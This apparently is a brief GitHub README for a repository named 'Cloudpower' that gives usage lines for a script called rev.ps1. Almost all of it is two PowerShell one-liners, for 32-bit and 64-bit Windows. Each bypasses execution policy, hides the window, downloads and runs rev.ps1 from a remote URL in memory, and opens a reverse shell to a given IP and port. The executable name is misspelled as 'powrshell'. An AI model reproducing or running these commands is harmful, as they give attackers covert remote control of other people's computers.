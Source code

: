 # Cloudpower
test for interest




# Help for rev.ps1:
winx86:
powrshell -ep bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/aspiggy/Cloudpower/master/rev.ps1'); rev -ip 4.4.4.4 -port 443"

winx64:
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powrshell.exe -ep bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/aspiggy/Cloudpower/master/rev.ps1'); rev -ip 4.4.4.4 -port 443"
